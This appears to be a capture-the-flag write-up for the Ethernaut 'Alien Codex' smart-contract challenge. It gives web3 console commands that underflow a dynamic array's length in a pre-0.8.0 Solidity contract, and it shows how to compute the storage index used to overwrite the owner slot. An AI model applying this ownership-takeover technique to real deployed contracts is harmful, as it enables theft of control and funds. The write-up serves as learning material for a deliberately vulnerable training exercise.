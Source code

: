 # Ethernaut challenge 19 Alien Codex

## Steps:

- `await contract.make_contact()`// Change contract bool to true
- `await web3.eth.getStorageAt(contract.address, 0, console.log);` // display current owner and bool (contact) value packed.

- `await contract.retract();` // Call retract function and decrement the codex length. This is possible because the compiler version is less than 0.8.0 and there is no underflow protection lib. With the length of codex now at 2 ** 256 -1 32 byte slots we are now able to overwrite any data we would like. 

- `await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x0000000000000000000000005f1bC8fD0059aa02a270d2e31375190cb4e156aF', {from:player, gas: 900000});` // Where the first argument is the location in memory, and the second, your wallet address.

## Calculating the first arg:

We can see below that the codex length will be in slot 1 (owner address and bool value will be packed into slot 0). So we will begin with `keccak256(bytes32(1))` to locate the begining of the dynamic array in memory and work backwards `index = 2 ** 256 - uint(beginingOfArray)`

```
Array data is located starting at keccak256(p) and it is laid out in the same way as statically-sized array data would: One element after the other, potentially sharing storage slots if the elements are not longer than 16 bytes. 
```

See https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html To better under stand the above calculations for finding the `owner` value of the contract.




